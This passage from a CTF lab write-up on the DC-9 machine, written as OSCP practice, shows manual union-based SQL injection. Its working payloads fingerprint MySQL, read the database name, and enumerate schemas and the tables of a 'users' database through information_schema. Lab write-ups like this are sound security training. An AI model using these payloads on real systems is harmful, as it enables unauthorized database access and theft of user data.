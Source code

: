 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a6.png)

> Since I'm practicing OSCP Exam environment, I'll do this manually, as SQLMap is prohibited in OSCP Exam.

First, let's test it suffers which type of SQL Injection, such as Union-based, Time-based, Error-based, etc.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a7.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a8.png)

**Full SQL Query:**
```sql
' UNION ALL SELECT 1,2,3,4,5,6-- -
```

Looks like it **suffers Union-based SQL Injection**!

Let's **enumerate the entire DBMS(Database Management System)** via SQL Injection!

**First, let's find out which DBMS is running on the target machine!** 
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,@@version-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a9.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a10.png)

We can confirm that the DBMS that the target machine's running is `MySQL`.

**Then, we can list the current database name:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,database()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a12.png)

- Current database name:`Staff`

**Next, we can list all database names:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(schema_name) FROM information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a11.png)

- All database names:`information_schema`, `Staff`, `users`

**Since database `users` seems to be interesting, let's enumerate it's tables first:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='users'-- -
```
